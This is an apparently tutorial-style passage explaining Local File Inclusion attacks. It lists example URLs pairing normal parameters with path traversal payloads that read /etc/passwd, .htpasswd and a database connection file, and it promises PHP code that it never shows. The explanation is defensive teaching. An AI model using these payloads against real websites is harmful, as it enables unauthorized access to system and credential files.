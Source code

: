 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`
